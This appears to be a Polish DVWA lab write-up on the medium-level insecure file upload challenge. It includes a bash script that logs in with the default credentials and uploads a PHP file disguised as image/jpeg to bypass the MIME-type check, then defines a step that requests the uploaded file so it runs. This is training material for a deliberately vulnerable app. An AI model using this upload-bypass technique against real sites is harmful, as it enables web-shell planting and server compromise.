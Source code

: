 <br/>

<br/>
<br/>

## DVWA Insecure File Upload #2 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Sprawdzany jest zadeklarowany typ pliku
* NIE jest sprawdzane rozszerzenie, ani sygnatura

#### Dane wejściowe:
| No. | Opis | Typ | Przykładowa wartość |
|------|-------------|------|---------------|
| 1 | DVWA base url | url | 10.10.10.10|
| 2 | testowy plik PHP | plik | test.php|

#### Skrypt w `bash` 

```bash
#!/bin/bash

# Function to display usage instructions
display_usage() {
  echo "Usage: $0 <base_url> <php_filename>"
  echo "Description: This script attempts to upload and execute a malicious PHP file using the insecure file upload functionality"
  echo "Arguments:"
  echo "  <base_url>      Base URL of the target application"
  echo "  <php_filename>  PHP file to be uploaded and executed"
}

# Check if the required number of arguments are provided
if [[ $# -ne 2 ]]; then
  display_usage
  exit 1
fi

get_cookie() {
  csrf=$(curl -s -x "http://127.0.0.1:8080" -c dvwa.cookie "$1/login.php?security=medium&Login=Login&username=admin&password=password" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2)
  sed -i 's/impossible/medium/' dvwa.cookie
  curl -s -b dvwa.cookie -d "username=admin&password=password&user_token=${csrf}&Login=Login" "$1/login.php"
}

upload_file() {
  curl -s -x "http://127.0.0.1:8080" -X POST "$1/vulnerabilities/upload/" -b dvwa.cookie -F 'MAX_FILE_SIZE=100000' -F "uploaded=@$2;filename=$2;type=image/jpeg" -F 'Upload=Upload' > /dev/null
}

execute_payload() {
  curl -sS -x "http://127.0.0.1:8080" -b dvwa.cookie "$1/hackable/uploads/$2"
}

# Check if the necessary arguments are provided
if [[ -z $1 || -z $2 ]]; then
  display_usage
  exit 1
fi

# Get cookie
get_cookie "$1"
upload_file "$1" "$2"
```